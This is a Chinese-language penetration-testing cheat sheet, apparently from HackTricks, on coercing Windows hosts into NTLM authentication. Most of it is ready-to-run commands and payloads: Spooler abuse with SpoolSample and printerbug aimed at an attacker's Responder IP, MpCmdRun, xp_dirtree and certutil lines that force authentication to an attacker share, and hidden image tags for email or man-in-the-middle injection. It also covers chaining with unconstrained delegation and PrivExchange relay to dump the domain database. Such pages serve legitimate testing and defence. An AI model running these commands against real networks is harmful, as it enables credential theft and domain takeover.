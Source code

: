 # 强制使用 NTLM 特权身份验证

<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> - <a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

* 您在**网络安全公司**工作吗？ 想要看到您的**公司在 HackTricks 中被宣传**吗？ 或者您想要访问**PEASS 的最新版本或下载 HackTricks 的 PDF**吗？ 请查看[**订阅计划**](https://github.com/sponsors/carlospolop)!
* 发现我们的独家[**NFTs**](https://opensea.io/collection/the-peass-family)收藏品[**The PEASS Family**](https://opensea.io/collection/the-peass-family)
* 获取[**官方 PEASS & HackTricks 商品**](https://peass.creator-spring.com)
* **加入** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**电报群组**](https://t.me/peass) 或在 **Twitter** **🐦**[**@carlospolopm**](https://twitter.com/hacktricks_live)** 上关注**我。
* **通过向 [hacktricks 仓库](https://github.com/carlospolop/hacktricks) 和 [hacktricks-cloud 仓库](https://github.com/carlospolop/hacktricks-cloud)** 提交 PR 来分享您的黑客技巧。

</details>

## SharpSystemTriggers

[**SharpSystemTriggers**](https://github.com/cube0x0/SharpSystemTriggers) 是一个使用 MIDL 编译器以避免第三方依赖关系编写的 **远程身份验证触发器** 集合。

## Spooler Service Abuse

如果 _**打印池**_ 服务已**启用**，您可以使用一些已知的 AD 凭据向域控制器的打印服务器**请求**更新新的打印作业，并告诉它**将通知发送到某个系统**。\
请注意，当打印机将通知发送到任意系统时，它需要对该系统**进行身份验证**。因此，攻击者可以使 _**打印池**_ 服务对任意系统进行身份验证，而服务将在此身份验证中**使用计算机帐户**。

### 查找域上的 Windows 服务器

使用 PowerShell 获取 Windows 服务器列表。服务器通常是优先级较高的，因此让我们专注于这里：
```bash
Get-ADComputer -Filter {(OperatingSystem -like "*windows*server*") -and (OperatingSystem -notlike "2016") -and (Enabled -eq "True")} -Properties * | select Name | ft -HideTableHeaders > servers.txt
```
### 寻找正在监听的 Spooler 服务

使用稍作修改的 @mysmartlogin（Vincent Le Toux）的 [SpoolerScanner](https://github.com/NotMedic/NetNTLMtoSilverTicket)，查看 Spooler 服务是否正在监听：
```bash
. .\Get-SpoolStatus.ps1
ForEach ($server in Get-Content servers.txt) {Get-SpoolStatus $server}
```
您也可以在Linux上使用rpcdump.py并查找MS-RPRN协议。
```bash
rpcdump.py DOMAIN/USER:PASSWORD@SERVER.DOMAIN.COM | grep MS-RPRN
```
### 请求服务对任意主机进行身份验证

您可以从[这里编译**SpoolSample**](https://github.com/NotMedic/NetNTLMtoSilverTicket)**。**
```bash
SpoolSample.exe <TARGET> <RESPONDERIP>
```
或者在Linux上使用[**3xocyte的dementor.py**](https://github.com/NotMedic/NetNTLMtoSilverTicket)或[**printerbug.py**](https://github.com/dirkjanm/krbrelayx/blob/master/printerbug.py)
```bash
python dementor.py -d domain -u username -p password <RESPONDERIP> <TARGET>
printerbug.py 'domain/username:password'@<Printer IP> <RESPONDERIP>
```
### 结合无限制委派

如果攻击者已经成功入侵了一个启用了[无限制委派](unconstrained-delegation.md)的计算机，攻击者可以**让打印机对该计算机进行身份验证**。由于存在无限制委派，**打印机的计算机帐户的TGT将保存在**具有无限制委派的计算机的**内存**中。由于攻击者已经控制了这台主机，他将能够**检索此票证**并滥用它（[传递票证](pass-the-ticket.md)）。

## RCP 强制认证

{% embed url="https://github.com/p0dalirius/Coercer" %}

## PrivExchange

`PrivExchange` 攻击是在**Exchange Server `PushSubscription` 功能**中发现的一个缺陷的结果。该功能允许任何具有邮箱的域用户强制 Exchange 服务器通过 HTTP 对任何客户端提供的主机进行身份验证。

默认情况下，**Exchange 服务以 SYSTEM 身份运行**并被赋予过多的特权（具体来说，在 2019 年之前的累积更新中，它具有**对域的 WriteDacl 特权**）。可以利用此缺陷来实现**将信息中继到 LDAP 并随后提取域 NTDS 数据库**。在无法中继到 LDAP 的情况下，此缺陷仍可用于中继和对域内其他主机进行身份验证。成功利用此攻击将立即授予具有任何经过身份验证的域用户帐户的域管理员访问权限。

## 在 Windows 内部

如果您已经在 Windows 机器内部，您可以使用特权帐户强制 Windows 连接到服务器，方法如下：

### Defender MpCmdRun
```bash
C:\ProgramData\Microsoft\Windows Defender\platform\4.18.2010.7-0\MpCmdRun.exe -Scan -ScanType 3 -File \\<YOUR IP>\file.txt
```
### MSSQL

### MSSQL
```sql
EXEC xp_dirtree '\\10.10.17.231\pwn', 1, 1
```
或者使用另一种技术：[https://github.com/p0dalirius/MSSQL-Analysis-Coerce](https://github.com/p0dalirius/MSSQL-Analysis-Coerce)

### Certutil

可以使用 certutil.exe lolbin（Microsoft 签名的二进制文件）来强制执行 NTLM 认证：
```bash
certutil.exe -syncwithWU  \\127.0.0.1\share
```
## HTML注入

### 通过电子邮件

如果你知道想要入侵的机器内登录用户的**电子邮件地址**，你可以发送一封带有**1x1像素的图片**的电子邮件，比如
```html
<img src="\\10.10.17.231\test.ico" height="1" width="1" />
```
### MitM

如果您可以对计算机执行中间人攻击，并在他将要查看的页面中注入HTML，您可以尝试在页面中注入如下图像：
```html
<img src="\\10.10.17.231\test.ico" height="1" width="1" />
```
## 破解 NTLMv1

如果你能捕获[NTLMv1 挑战，点击这里了解如何破解](../ntlm/#ntlmv1-attack)。\
_请记住，为了破解 NTLMv1，你需要将 Responder 挑战设置为 "1122334455667788"_
